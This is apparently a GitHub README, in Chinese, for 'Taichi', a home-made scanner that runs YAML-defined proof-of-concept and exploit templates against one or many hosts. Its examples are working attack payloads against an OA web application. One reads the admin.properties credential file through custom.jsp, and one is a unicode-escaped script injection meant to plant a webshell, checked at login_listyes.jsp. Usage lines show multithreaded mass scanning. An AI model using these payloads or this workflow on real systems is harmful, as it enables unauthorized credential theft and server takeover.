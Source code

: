 # Taichi
持续更新

## 前言

之前写了几个poc，感觉代码有很多相似的地方，所以我寻思能不能写个大体框架，这样以后就不用改来改去了。当然，我也知道有nuclei这样成熟好用的工具，但是我还是想试试，所以就搞了一个这个。（大佬勿喷）

目前才搞了几天，测试的数量也不多，算是个雏形，所以会有很多bug，请见谅。如有bug或者建议欢迎联系我

## 介绍

我认为这个工具的核心就是可以自定义poc或者exp

## poc.yaml格式

```
#请求方式
- method:
  - method: "post"

#payload
- payload:
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
  
#response包里的关键字
- word:
  - word:
      - "password"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"
```

例子中的payload

```
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
```

可以随意变换为request包里的内容，例如:

```
  - a: 'aaaaaaaaaaa'
```

## exp.yaml格式

```
#请求方式
- method:
  - method: "post"

#payload
- payload:
  - s_bean: 'ruleFormulaValidate&script=u0067\u0020\u003d\u0020\u0074\u0072\u0075\u0065\u003b\u0020\u007d\u0069\u0066\u0020\u0028\u0066\u006c\u0061\u0067\u0029\u0020\u007b\u0020\u0062\u0072\u0065\u0061\u006b\u003b\u0020\u007d\u0020\u007d\u0069\u0066\u0020\u0028\u0066\u006c\u0061\u0067\u0029\u0020\u007b\u0020\u0062\u0072\u0065\u0061\u006b\u003b\u0020\u007d\u0020\u007d\u0020\u0063\u0061\u0074\u0063\u0068\u0020\u0028\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0020\u0065\u0029\u0020\u007b\u0020\u0063\u006f\u006e\u0074\u0069\u006e\u0075\u0065\u003b\u0020\u007d\u0020\u007d'

#response包里的关键字
- word:
  - word:
      - "0xold6"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"

#attack中 验证 是否攻击成功的 请求方式
- method-V:
  - method: "get"

#webshell位置
- verify:
  - verify : "/login_listyes.jsp"
```

同理，payload内容也是可以变的

### 注意：yaml文件中参数的位置不可以改变

## 使用方法

```
python3 Taichi.py -h
usage: Taichi.py [-h] [-rh remote_host] [-f file_path] [-o outfile_path]
                 [-t thread_num] [-p poc_path] [-e exp_path]

Scan by atk7r

options:
  -h, --help            show this help message and exit
  -rh remote_host, --rhost remote_host
                        Please input host to scan.
  -f file_path, --file file_path
                        Please input file path to scan.
  -o outfile_path, --outfile outfile_path
                        Please input path for output file.
  -t thread_num, --thread thread_num
                        Please input thread number.
  -p poc_path, --poc poc_path
                        Please input poc path to scan.
  -e exp_path, --exp exp_path
                        Please input exp path to scan.
```

### 扫描单个目标

```
python3 Taichi.py -rh 123.123.123.123 -e exp.yaml
python3 Taichi.py -rh 123.123.123.123 -p poc.yaml
```

### 扫描多个目标

```
python3 Taichi.py -f target.txt -e exp.yaml/-p poc.yaml -o result.txt
```

### 多线程扫描

```
python3 Taichi.py -f target.txt -e exp.yaml/-p poc.yaml -o result.txt -t 5
```


